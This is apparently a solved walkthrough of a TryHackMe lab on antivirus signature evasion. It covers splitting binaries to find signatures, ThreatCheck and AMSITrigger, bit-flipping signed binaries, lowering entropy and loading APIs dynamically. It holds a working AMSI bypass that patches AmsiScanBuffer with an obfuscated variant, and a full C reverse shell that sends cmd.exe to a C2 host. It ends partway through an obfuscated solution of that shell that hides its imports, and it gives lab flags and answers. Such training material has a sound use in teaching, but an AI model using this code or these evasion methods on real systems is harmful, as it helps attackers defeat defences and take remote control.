


# [Signature Evasion](https://tryhackme.com/r/room/signatureevasion)


Learn how to break signatures and evade common AV, using modern tool-agnostic approaches.

## Task 1 - Introduction

An adversary may struggle to overcome specific detections when facing an advanced anti-virus engine or **EDR** (Endpoint Detection & Response) solution. Even after employing some of the most common obfuscation or evasion techniques discussed in [Obfuscation Principles](https://tryhackme.com/room/obfuscationprinciples), signatures in a malicious file may still be present.

To combat persistent signatures, adversaries can observe each individually and address them as needed.

In this room, we will understand what signatures are and how to find them, then attempt to break them following an agnostic thought process. To dive deeper and combat heuristic signatures, we will also discuss more advanced code concepts and “malware best practices.”

### Learning Objectives

1. Understand the origins of signatures and how to observe/detect them in malicious code
2. Implement documented obfuscation methodology to break signatures
3. Leverage non-obfuscation-based techniques to break non-function oriented signatures.

This room is a successor to [Obfuscation Principles](https://tryhackme.com/room/obfuscationprinciples); we highly recommend completing it before this room if you have not already. 

Before beginning this room, familiarize yourself with basic programming logic and syntax. Knowledge of C and PowerShell is recommended but not required. 

We have provided a base Windows machine with the files needed to complete this room. You can access the machine in-browser or through RDP using the credentials below.

|Machine IP: MACHINE_IP|Username: Student|Password: TryHackMe!|

This is going to be a lot of information. Please locate your nearest hammer and fire extinguisher.

### Answer the questions below

* Read the above and continue to the next task.

## Task 2 - Signature Identification

Before jumping into breaking signatures, we need to understand and identify what we are looking for. As covered in [Introduction to Anti-Virus](https://tryhackme.com/room/introtoav), signatures are used by anti-virus engines to track and identify possible suspicious and/or malicious programs. In this task, we will observe how we can manually identify an exact byte where a signature starts.

When identifying signatures, whether manually or automated, we must employ an iterative process to determine what byte a signature starts at. By recursively splitting a compiled binary in half and testing it, we can get a rough estimate of a byte-range to investigate further.

We can use the native utilities `head`, `dd`, or `split` to split a compiled binary. In the below command prompt, we will walk through using head to find the first signature present in a msfvenom binary.

Once split, move the binary from your development environment to a machine with the anti-virus engine you would like to test on. If an alert appears, move to the lower half of the split binary and split it again. If an alert does not appear, move to the upper half of the split binary and split it again. Continue this pattern until you cannot determine where to go; this will typically occur around the kilobyte range.

Once you have reached the point at which you no longer accurately split the binary, you can use a hex editor to view the end of the binary where the signature is present.

```
0000C2E0  43 68 6E E9 0A 00 00 00 0C 4D 1A 8E 04 3A E9 89  Chné.....M.Ž.:é‰
0000C2F0  67 6F BE 46 01 00 00 6A 40 90 68 00 10 00 00 E9  go¾F...j@.h....é
0000C300  0A 00 00 00 53 DF A1 7F 64 ED 40 73 4A 64 56 90  ....Sß¡.dí@sJdV.
0000C310  6A 00 68 58 A4 53 E5 E9 08 00 00 00 15 0D 69 B6  j.hX¤Såé......i¶
0000C320  F4 AB 1B 73 FF D5 E9 0A 00 00 00 7D 43 00 40 DB  ô«.sÿÕé....}C.@Û
0000C330  43 8B AC 55 82 89 C3 90 E9 08 00 00 00 E4 95 8E  C‹¬U‚‰Ã.é....ä•Ž
0000C340  2C 06 AC 29 A3 89 C7 90 E9 0B 00 00 00 0B 32 AC  ,.¬)£‰Ç.é.....2¬
```

We have the location of a signature; how human-readable it is will be determined by the tool itself and the compilation method.

Now… no one wants to spend hours going back and forth trying to track down bad bytes; let’s automate it! In the next task, we will look at a few **FOSS** (Free and Open-Source Software) solutions to aid us in identifying signatures in compiled code.

### Answer the questions below

* Using the knowledge gained throughout this task, split the binary found in `C:\Users\Student\Desktop\Binaries\shell.exe` using a native utility discussed in this task. Recursively determine if the split binary is detected until you have obtained the nearest kilobyte of the first signature.

* To the nearest kibibyte, what is the first detected byte?

    **Answer : 51000**

## Task 3 - Automating Signature Identification

The process shown in the previous task can be quite arduous. To speed it up, we can automate it using scripts to split bytes over an interval for us. [Find-AVSignature](https://github.com/PowerShellMafia/PowerSploit/blob/master/AntivirusBypass/Find-AVSignature.ps1) will split a provided range of bytes through a given interval.



This script relieves a lot of the manual work, but still has several limitations. Although it requires less interaction than the previous task, it still requires an appropriate interval to be set to function properly. This script will also only observe strings of the binary when dropped to disk rather than scanning using the full functionality of the anti-virus engine.

To solve this problem we can use other **FOSS** (Free and Open-Source Software) tools that leverage the engines themselves to scan the file, including [DefenderCheck](https://github.com/matterpreter/DefenderCheck), [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck), and [AMSITrigger](https://github.com/RythmStick/AMSITrigger). In this task, we will primarily focus on ThreatCheck and briefly mention the uses of AMSITrigger at the end.

### ThreatCheck

ThreatCheck is a fork of DefenderCheck and is arguably the most widely used/reliable of the three. To identify possible signatures, ThreatCheck leverages several anti-virus engines against split compiled binaries and reports where it believes bad bytes are present.

ThreatCheck does not provide a pre-compiled release to the public. For ease of use we have already compiled the tool for you; it can be found in `C:\Users\Administrator\Desktop\Tools` of the attached machine.

Below is the basic syntax usage of ThreatCheck.



For our uses we only need to supply a file and optionally an engine; however, we will primarily want to use AMSITrigger when dealing with **AMSI** (Anti-Malware Scan Interface), as we will discuss later in this task.


It’s that simple! No other configuration or syntax is required and we can get straight to modifying our tooling. To efficiently use this tool we can identify any bad bytes that are first discovered then recursively break them and run the tool again until no signatures are identified.

Note: There may be instances of false positives, in which the tool will report no bad bytes. This will require your own intuition to observe and solve; however, we will discuss this further in task 4.

### AMSITrigger

As covered in [Runtime Detection Evasion](https://tryhackme.com/room/runtimedetectionevasion), AMSI leverages the runtime, making signatures harder to identify and resolve. ThreatCheck also does not support certain file types such as PowerShell that AMSITrigger does.

AMSITrigger will leverage the AMSI engine and scan functions against a provided PowerShell script and report any specific sections of code it believes need to be alerted on.

AMSITrigger does provide a pre-compiled release on their GitHub and can also be found on the Desktop of the attached machine.

Below is the syntax usage of AMSITrigger


For our uses we only need to supply a file and the preferred format to report signatures.

```
PS C:\> .\amsitrigger.exe -i bypass.ps1 -f 3
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

In the next task we will discuss how you can use the information gathered from these tools to break signatures.

### Answer the questions below

* Using the knowledge gained throughout this task, identify bad bytes found in `C:\Users\Student\Desktop\Binaries\shell.exe` using ThreatCheck and the Defender engine. ThreatCheck may take up to 15 minutes to find the offset, in this case you can leave it running in the background, continue with the next task, and come back when it finishes.

* At what offset was the end of bad bytes for the file? 

    ```
    cd Desktop
    cd Tools
    ThreatCheck.exe -e Defender -f ..\Binaries\shell.exe
    ```

    

    **Answer : 0xC544**

## Task 4 - Static Code-Based Signatures

Once we have identified a troublesome signature we need to decide how we want to deal with it. Depending on the strength and type of signature, it may be broken using simple obfuscation as covered in [Obfuscation Principles](https://tryhackme.com/room/obfuscationprinciples), or it may require specific investigation and remedy. In this task, we aim to provide several solutions to remedy static signatures present in functions.

The [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/track/pdf/10.1186/s42400-020-00049-3.pdf) covers the most reliable solutions as part of the **Obfuscating Methods** and **Obfuscating Classes layer**.

### Obfuscating methods

|Obfuscation Method|Purpose|
|------------------|-------|
|Method Proxy|Creates a proxy method or a replacement object|
|Method Scattering/Aggregation|Combine multiple methods into one or scatter a method into several|
|Method Clone|Create replicas of a method and randomly call each|

### Obfuscating Classes

|Obfuscation Method|Purpose|
|------------------|-------|
|Class Hierarchy Flattening|Create proxies for classes using interfaces|
|Class Splitting/Coalescing|Transfer local variables or instruction groups to another class|
|Dropping Modifiers|Remove class modifiers (public, private) and make all members public|

Looking at the above tables, even though they may use specific technical terms or ideas, we can group them into a core set of agnostic methods applicable to any object or data structure.

The techniques **class splitting/coalescing** and **method scattering/aggregation** can be grouped into an overarching concept of splitting or merging any given **OOP** (Object-Oriented Programming) function.

Other techniques such as **dropping modifiers** or **method clone** can be grouped into an overarching concept of removing or obscuring identifiable information.

### Splitting and Merging Objects

The methodology required to split or merge objects is very similar to the objective of concatenation as covered in [Obfuscation Principles](https://tryhackme.com/room/signatureevasion).

The premise behind this concept is relatively easy, we are looking to create a new object function that can break the signature while maintaining the previous functionality.

To provide a more concrete example of this, we can use the [well-known case study](https://offensivedefence.co.uk/posts/covenant-profiles-templates/) in Covenant present in the `GetMessageFormat` string. We will first look at how the solution was implemented then break it down and apply it to the obfuscation taxonomy.

#### Original String

Below is the original string that is detected

```
string MessageFormat = @"{{""GUID"":""{0}"",""Type"":{1},""Meta"":""{2},""IV"":""{3}"",""EncryptedMessage"":""{4}"",""HMAC"":""{5}""}}";
```

#### Obfuscated Method

Below is the new class used to replace and concatenate the string.

```
public static string GetMessageFormat // Format the public method
{
    get // Return the property value
    {
        var sb = new StringBuilder(@"{{""GUID"":""{0}"","); // Start the built-in concatenation method
        sb.Append(@"""Type"":{1},"); // Append substrings onto the string
        sb.Append(@"""Meta"":""{2}"",");
        sb.Append(@"""IV"":""{3}"",");
        sb.Append(@"""EncryptedMessage"":""{4}"",");
        sb.Append(@"""HMAC"":""{5}""}}");
        return sb.ToString(); // Return the concatenated string to the class
    }
}

string MessageFormat = GetMessageFormat
```

Recapping this case study, class splitting is used to create a new class for the local variable to concatenate. We will cover how to recognize when to use a specific method later in this task and throughout the practical challenge.

### Removing and Obscuring Identifiable Information

The core concept behind removing identifiable information is similar to obscuring variable names as covered in [Obfuscation Principles](https://tryhackme.com/room/signatureevasion). In this task, we are taking it one step further by specifically applying it to identified signatures in any objects including methods and classes.

An example of this can be found in Mimikatz where an alert is generated for the string `wdigest.dll`. This can be solved by replacing the string with any random identifier changed throughout all instances of the string. This can be categorized in the obfuscation taxonomy under the method proxy technique.


This is almost no different than as discussed in [Obfuscation Principles](https://tryhackme.com/room/signatureevasion); however, it is applied to a specific situation.

Using the knowledge you have accrued throughout this task, obfuscate the following PowerShell snippet, using AmsiTrigger to visual signatures.

```
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

Once sufficiently obfuscated, submit the snippet to the webserver at `http://MACHINE_IP/challenge-1.html`. The file name must be saved as `challenge-1.ps1`. If correctly obfuscated a flag will appear in an alert pop-up

### Answer the questions below

* What flag is found after uploading a properly obfuscated snippet?

    * Change script 1
        
        ```
        $A = "AmsiScanBuffer"

        to

        $A = "AmsiS"+"canBuffer"
        ```

    * Change script 2
    
        ```
        $buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

        to

        $buf = new-object byte[] 6
        $buf[0] = [UInt32]0xB8
        $buf[1] = [UInt32]0x57
        $buf[2] = [UInt32]0x00
        $buf[3] = [Uint32]0x07
        $buf[4] = [Uint32]0x80
        $buf[5] = [Uint32]0xC3
        ```

    

    **Answer : THM{70_D373C7_0r_70_N07_D373C7}**

## Task 5 - Static Property-Based Signatures

Various detection engines or analysts may consider different indicators rather than strings or static signatures to contribute to their hypothesis. Signatures can be attached to several file properties, including file hash, entropy, author, name, or other identifiable information to be used individually or in conjunction. These properties are often used in rule sets such as **YARA** or **Sigma**.

Some properties may be easily manipulated, while others can be more difficult, specifically when dealing with pre-compiled closed-source applications.

This task will discuss manipulating the **file hash** and **entropy** of both open-source and closed-source applications.

Note: several other properties such as PE headers or module properties can be used as indicators. Because these properties often require an agent or other measures to detect, we will not cover them in this room to keep the focus on signatures.

### File Hashes

A **file hash**, also known as a **checksum**, is used to tag/identify a unique file. They are commonly used to verify a file’s authenticity or its known purpose (malicious or not). File hashes are generally arbitrary to modify and are changed due to any modification to the file.

If we have access to the source for an application, we can modify any arbitrary section of the code and re-compile it to create a new hash. That solution is straightforward, but what if we need a pre-compiled or signed application?

When dealing with a signed or closed-source application, we must employ **bit-flipping**.

Bit-flipping is a common cryptographic attack that will mutate a given application by flipping and testing each possible bit until it finds a viable bit. By flipping one viable bit, it will change the signature and hash of the application while maintaining all functionality.

We can use a script to create a **bit-flipped list** by flipping each bit and creating a new **mutated variant** (~3000 - 200000 variants). Below is an example of a python bit-flipping implementation.

```
import sys

orig = list(open(sys.argv[1], "rb").read())

i = 0
while i < len(orig):
	current = list(orig)
	current[i] = chr(ord(current[i]) ^ 0xde)
	path = "%d.exe" % i
	
	output = "".join(str(e) for e in current)
	open(path, "wb").write(output)
	i += 1
	
print("done")
```

Once the list is created, we must search for intact unique properties of the file. For example, if we are bit-flipping `msbuild`, we need to use `signtool` to search for a file with a useable certificate. This will guarantee that the functionality of the file is not broken, and the application will maintain its signed attribution.

We can leverage a script to loop through the bit-flipped list and verify functional variants. Below is an example of a batch script implementation.

```
FOR /L %%A IN (1,1,10000) DO (
	signtool verify /v /a flipped\\%%A.exe
)
```

This technique can be very lucrative, although it can take a long time and will only have a limited period until the hash is discovered. Below is a comparison of the original MSBuild application and the bit-flipped variation.


### Entropy

From [IBM](https://www.ibm.com/docs/en/qsip/7.4?topic=content-analyzing-files-embedded-malicious-activity), Entropy is defined as “the randomness of the data in a file used to determine whether a file contains hidden data or suspicious scripts.” EDRs and other scanners often leverage entropy to identify potential suspicious files or contribute to an overall malicious score.

Entropy can be problematic for obfuscated scripts, specifically when obscuring identifiable information such as variables or functions.

To lower entropy, we can replace random identifiers with randomly selected English words. For example, we may change a variable from `q234uf` to `nature`.

To prove the efficacy of changing identifiers, we can observe how the entropy changes using [CyberChef](https://gchq.github.io/CyberChef/#recipe=Entropy('Shannon%20scale')).

Below is the Shannon entropy scale for a standard English paragraph.

**Shannon entropy: 4.587362034903882**


Below is the Shannon entropy scale for a small script with random identifiers.

**Shannon entropy: 5.341436973971389**


Depending on the EDR employed, a “suspicious” entropy value is **~ greater than 6.8**.

The difference between a random value and English text will become amplified with a larger file and more occurrences.

Note that entropy will generally never be used alone and only to support a hypothesis. For example, the entropy for the command `pskill` and the hivenightmare exploit are almost identical.

To see entropy in action, let’s look at how an EDR would use it to contribute to threat indicators.


In the white paper, [An Empirical Assessment of Endpoint Detection and Response Systems against Advanced Persistent Threats Attack Vectors](https://www.mdpi.com/2624-800X/1/3/21/pdf), **SentinelOne** _is shown to detect a DLL due to high entropy, specifically through AES encryption_.

### Answer the questions below

* Using CyberChef, obtain the Shannon entropy of the file: `C:\Users\Student\Desktop\Binaries\shell.exe`.

* Rounded to three decimal places, what is the Shannon entropy of the file?

    

    **Answer : 6.354**

## Task 6 - Behavioral Signatures

Obfuscating functions and properties can achieve a lot with minimal modification. Even after breaking static signatures attached to a file, modern engines may still observe the behavior and functionality of the binary. This presents numerous problems for attackers that cannot be solved with simple obfuscation.

As covered in [Introduction to Anti-Virus](https://tryhackme.com/room/introtoav), modern anti-virus engines will employ two common methods to detect behavior: observing imports and hooking known malicious calls. While imports, as will be covered in this task, can be easily obfuscated or modified with minimal requirements, hooking requires complex techniques out of scope for this room. Because of the prevalence of API calls specifically, observing these functions can be a significant factor in determining if a file is suspicious, along with other behavioral tests/considerations.

Before diving too deep into rewriting or importing calls, let’s discuss how API calls are traditionally utilized and imported. We will cover C-based languages first and then briefly cover .NET-based languages later in this task.

API calls and other functions native to an operating system require a pointer to a function address and a structure to utilize them.

Structures for functions are simple; they are located in **import libraries** such as `kernel32` or `ntdll` that store function structures and other core information for Windows.

The most significant issue to function imports is the function addresses. Obtaining a pointer may seem straightforward, although because of **ASLR** (Address Space Layout Randomization), function addresses are dynamic and must be found.

Rather than altering code at runtime, the **Windows loader** `windows.h` is employed. At runtime, the loader will map all modules to process address space and list all functions from each. That handles the modules, but how are function addresses assigned?

One of the most critical functions of the Windows loader is the **IAT** (Import Address Table). The IAT will store function addresses for all imported functions that can assign a pointer for the function.

The IAT is stored in the **PE** (Portable Executable) header `IMAGE_OPTIONAL_HEADER` and is filled by the Windows loader at runtime. The Windows loader obtains the function addresses or, more precisely, **thunks** from a pointer table, accessed from an API call or **thunk table**. Check out the [Windows Internals](https://tryhackme.com/room/windowsinternals) room for more information about the PE structure.

At a glance, an API is assigned a pointer to a thunk as the function address from the Windows loader. To make this a little more tangible, we can observe an example of the PE dump for a function.


The import table can provide a lot of insight into the functionality of a binary that can be detrimental to an adversary. But how can we prevent our functions from appearing in the IAT if it is required to assign a function address?

As briefly mentioned, the thunk table is not the only way to obtain a pointer for a function address. We can also utilize an API call to obtain the function address from the import library itself. This technique is known as **dynamic loading** and can be used to avoid the IAT and minimize the use of the Windows loader.

We will write our structures and create new arbitrary names for functions to employ dynamic loading.

At a high level, we can break up dynamic loading in C languages into four steps,

1. Define the structure of the call
2. Obtain the handle of the module the call address is present in
3. Obtain the process address of the call
4. Use the newly created call

To begin dynamically loading an API call, we must first define a structure for the call before the main function. The call structure will define any inputs or outputs that may be required for the call to function. We can find structures for a specific call on the Microsoft documentation. For example, the structure for `GetComputerNameA` can be found [here](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-getcomputernamea). Because we are implementing this as a new call in C, the syntax must change a little, but the structure stays the same, as seen below.

```
// 1. Define the structure of the call
typedef BOOL (WINAPI* myNotGetComputerNameA)(
	LPSTR   lpBuffer,
	LPDWORD nSize
);
```

To access the address of the API call, we must first load the library where it is defined. We will define this in the main function. This is commonly `kernel32.dll` or `ntdll.dll` for any Windows API calls. Below is an example of the syntax required to load a library into a module handle.

```
// 2. Obtain the handle of the module the call address is present in 
HMODULE hkernel32 = LoadLibraryA("kernel32.dll");
```

Using the previously loaded module, we can obtain the process address for the specified API call. This will come directly after the `LoadLibrary` call. We can store this call by casting it along with the previously defined structure. Below is an example of the syntax required to obtain the API call.

```
// 3. Obtain the process address of the call
myNotGetComputerNameA notGetComputerNameA = (myNotGetComputerNameA) GetProcAddress(hkernel32, "GetComputerNameA");
```

Although this method solves many concerns and problems, there are still several considerations that must be noted. Firstly, `GetProcAddress` and `LoadLibraryA` are still present in the IAT; although not a direct indicator it can lead to or reinforce suspicion; this problem can be solved using **PIC** (Position Independent Code). Modern agents will also hook specific functions and monitor kernel interactions; this can be solved using **API unhooking**.

Using the knowledge you have accrued throughout this task, obfuscate the following C snippet, ensuring no suspicious API calls are present in the IAT.

```
#include <windows.h>
#include <stdio.h>
#include <lm.h>

int main() {
    printf("GetComputerNameA: 0x%p\\n", GetComputerNameA);
    CHAR hostName[260];
    DWORD hostNameLength = 260;
    if (GetComputerNameA(hostName, &hostNameLength)) {
        printf("hostname: %s\\n", hostName);
    }
}
```

Once sufficiently obfuscated, submit the snippet to the webserver at `http://MACHINE_IP/challenge-2.html`. The file name must be saved as `challenge-2.exe`. If correctly obfuscated a flag will appear in an alert pop-up.

### Answer the questions below

* What flag is found after uploading a properly obfuscated snippet?
    
    

    

    **Answer : THM{N0_1MP0r75_F0r_Y0U}**

## Task 7 - Putting It All Together

As reiterated through both this room and [Obfuscation Principles](https://tryhackme.com/room/obfuscationprinciples), no one method will be 100% effective or reliable.

To create a more effective and reliable methodology, we can combine several of the methods covered in this room and the previous.

When determining what order you want to begin obfuscation, consider the impact of each method. For example, is it easier to obfuscate an already broken class or is it easier to break a class that is obfuscated?

Note: In general, You should run automated obfuscation or less specific obfuscation methods after specific signature breaking, however, you will not need those techniques for this challenge.

Taking these notes into consideration, modify the provided binary to meet the specifications below.

1. No suspicious library calls present
2. No leaked function or variable names
3. File hash is different than the original hash
4. Binary bypasses common anti-virus engines

Note: When considering library calls and leaked function, be conscious of the IAT table and strings of your binary.

```
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

void RunShell(char* C2Server, int C2Port) {
        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        WSAStartup(MAKEWORD(2,2), &version);
        mySocket = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = inet_addr(C2Server);
        addr.sin_port = htons(C2Port);

        if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            closesocket(mySocket);
            WSACleanup();
        } else {
            printf("Connected to %s:%d\\n", C2Server, C2Port);

            char Process[] = "cmd.exe";
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
            CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            printf("Process Created %lu\\n", pinfo.dwProcessId);

            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.10.10";
        int port = 53;
        RunShell(host, port);
    }
    return 0;
} 
```

Once sufficiently obfuscated, compile the payload on the AttackBox or VM of your choice using GCC or other C compiler. The file name must be saved as `challenge.exe`. Once compiled, submit the executable to the webserver at `http://MACHINE_IP/`. If your payload satisfies the requirements listed, it will be ran and a beacon will be sent to the provided server IP and port.

Note: It is also essential to change the `C2Server` and `C2Port` variables in the provided payload or this challenge will not properly work and you will not receive a shell back. 

Note: When compiling with GCC you will need to add compiler options for `winsock2` and `ws2tcpip`. These libraries can be included using the compiler flags `-lwsock32` and `-lws2_32`

If you are still stuck we have provided a walkthrough of the solution below.

### Solution Walkthrough

For this challenge, we are given a binary we did not create. Our first goal is to get familiar with the binary from a reverse engineer’s perspective. Are there any signatures? What does its PE structure look like? Is there any critical information in the IAT?

If you run the binary against ThreatCheck or a similar tool, you will notice it currently has no detections, so we can move on from that.

If you inspect the binaries IAT table as discussed in task 6, you will notice there are roughly seven unique API calls that could indicate the objectives of this binary.

Let’s focus our efforts on removing these from the IAT table and dynamically calling them. To recap what was covered in task 6: we need to identify a specific API call, obtain its structure from the [Windows documentation](https://docs.microsoft.com/en-us/windows/win32/apiindex/windows-api-list), load the library for the API calls, and obtain a pointer to the API call.

We’ll walk through dynamically calling one API call and then expect you to reiterate the steps for the rest of the calls.

Let’s look at the [Windows document](https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect) for `WSAConnect`; below is the structure obtained from the documentation

```
int WSAAPI WSAConnect(
  [in]  SOCKET         s,
  [in]  const sockaddr *name,
  [in]  int            namelen,
  [in]  LPWSABUF       lpCallerData,
  [out] LPWSABUF       lpCalleeData,
  [in]  LPQOS          lpSQOS,
  [in]  LPQOS          lpGQOS
);
```

We can now rewrite this to meet the requirements of a structure definition.

```
typedef int(WSAAPI* WSACONNECT)(SOCKET s,const struct sockaddr *name,int namelen,LPWSABUF lpCallerData,LPWSABUF lpCalleeData,LPQOS lpSQOS,LPQOS lpGQOS);
```

Now we need to import the library the calls are stored in. This only needs to occur once since all calls use the same library.

```
HMODULE hws2_32 = LoadLibraryW(L"ws2_32");
```

To use the API call, we must obtain the pointer to the address.

```
WSACONNECT myWSAConnect = (WSACONNECT) GetProcAddress(hws2_32, "WSAConnect");
```

Once the pointer is obtained, we can change all occurrences of the API call with our new pointer.

```
mySocket = myWSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
```

Once complete, your structure definition should look like the below code snippet

```
typedef int(WSAAPI* WSASTARTUP)(WORD wVersionRequested,LPWSADATA lpWSAData);
typedef SOCKET(WSAAPI* WSASOCKETA)(int af,int type,int protocol,LPWSAPROTOCOL_INFOA lpProtocolInfo,GROUP g,DWORD dwFlags);
typedef unsigned(WSAAPI* INET_ADDR)(const char *cp);
typedef u_short(WSAAPI* HTONS)(u_short hostshort);
typedef int(WSAAPI* WSACONNECT)(SOCKET s,const struct sockaddr *name,int namelen,LPWSABUF lpCallerData,LPWSABUF lpCalleeData,LPQOS lpSQOS,LPQOS lpGQOS);
typedef int(WSAAPI* CLOSESOCKET)(SOCKET s);
typedef int(WSAAPI* WSACLEANUP)(void);
```

The below code snippet defines all pointer addresses needed, corresponding to the above structures.

```
HMODULE hws2_32 = LoadLibraryW(L"ws2_32");
WSASTARTUP myWSAStartup = (WSASTARTUP) GetProcAddress(hws2_32, "WSAStartup");
WSASOCKETA myWSASocketA = (WSASOCKETA) GetProcAddress(hws2_32, "WSASocketA");
INET_ADDR myinet_addr = (INET_ADDR) GetProcAddress(hws2_32, "inet_addr");
HTONS myhtons = (HTONS) GetProcAddress(hws2_32, "htons");
WSACONNECT myWSAConnect = (WSACONNECT) GetProcAddress(hws2_32, "WSAConnect");
CLOSESOCKET myclosesocket = (CLOSESOCKET) GetProcAddress(hws2_32, "closesocket");
WSACLEANUP myWSACleanup = (WSACLEANUP) GetProcAddress(hws2_32, "WSACleanup"); 
```

Please note, the structure definitions should be outside of any function at the beginning of your code. The pointer definitions should be at the top of the `RunShell` function

We should now randomize the pointer and other variable names in proper best practice. We should also strip the binary of any symbols or other identifiable information.

Once thoroughly obfuscated and information has been removed we can compile the binary using **mingw-gcc**.

```
x86_64-w64-mingw32-gcc challenge.c -o challenge.exe -lwsock32 -lws2_32 
```

### Answer the questions below

* What is the flag found on the Administrator desktop?

    * Change script

        ```
        #include <winsock2.h>
        #include <windows.h>
        #include <ws2tcpip.h>
        #include <stdio.h>

        #define DEFAULT_BUFLEN 1024

        typedef int(WSAAPI* WSASTARTUP)(WORD wVersionRequested,LPWSADATA lpWSAData);
        typedef SOCKET(WSAAPI* WSASOCKETA)(int af,int type,int protocol,LPWSAPROTOCOL_INFOA lpProtocolInfo,GROUP g,DWORD dwFlags);
        typedef unsigned(WSAAPI* INET_ADDR)(const char *cp);
        typedef u_short(WSAAPI* HTONS)(u_short hostshort);
        typedef int(WSAAPI* WSACONNECT)(SOCKET s,const struct sockaddr *name,int namelen,LPWSABUF lpCallerData,LPWSABUF lpCalleeData,LPQOS lpSQOS,LPQOS lpGQOS);
        typedef int(WSAAPI* CLOSESOCKET)(SOCKET s);
        typedef int(WSAAPI* WSACLEANUP)(void);

        void runn(char* serv, int Port) {
            HMODULE hws2_32 = LoadLibraryW(L"ws2_32");
            WSASTARTUP myWSAStartup = (WSASTARTUP) GetProcAddress(hws2_32, "WSAStartup");
            WSASOCKETA myWSASocketA = (WSASOCKETA) GetProcAddress(hws2_32, "WSASocketA");
            INET_ADDR myinet_addr = (INET_ADDR) GetProcAddress(hws2_32, "inet_addr");
            HTONS myhtons = (HTONS) GetProcAddress(hws2_32, "htons");
            WSACONNECT myWSAConnect = (WSACONNECT) GetProcAddress(hws2_32, "WSAConnect");
            CLOSESOCKET myclosesocket = (CLOSESOCKET) GetProcAddress(hws2_32, "closesocket");
            WSACLEANUP myWSACleanup = (WSACLEANUP) GetProcAddress(hws2_32, "WSACleanup");
            SOCKET S0;
            struct sockaddr_in addr;
            WSADATA version;
            myWSAStartup(MAKEWORD(2,2), &version);
            S0 = myWSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
            addr.sin_family = AF_INET;
            addr.sin_addr.s_addr = myinet_addr(serv);
            addr.sin_port = myhtons(Port);
            if (myWSAConnect(S0, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
                myclosesocket(S0);
                myWSACleanup();
            } else {
                char p1[] = "cm";
                char p2[]="d.exe";
                char* p = strcat(p1,p2);
                STARTUPINFO sinfo;
                PROCESS_INFORMATION pinfo;
                memset(&sinfo, 0, sizeof(sinfo));
                sinfo.cb = sizeof(sinfo);
                sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
